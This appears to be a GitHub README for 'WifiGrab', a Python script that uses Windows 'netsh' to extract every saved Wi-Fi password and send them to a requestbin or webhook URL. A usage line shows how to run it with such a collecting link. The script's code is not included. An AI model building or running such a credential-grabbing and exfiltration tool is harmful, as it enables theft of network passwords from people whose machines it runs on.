 ![wifi](https://user-images.githubusercontent.com/90532971/194433840-5279b1b1-74a0-4a71-a379-9c2b2b227621.png)

#  >> WifiGrab
A little python tool which take advantage of using the 'netsh' command and grabs all the WIFI saves password. Made this tool and tested it on Windows 10. this script working with the help of using URL that collects requests (requestbin/webhook).<h4>Having any problems? send me a message.</h4>
#  >> Usage
1. Python3 Wifitakeover.py -l / -link [HTTP-REQUEST-LINK]
2. Copy you're URL requestbin/webhook into the code when running.
3. Wait for the process to finish.
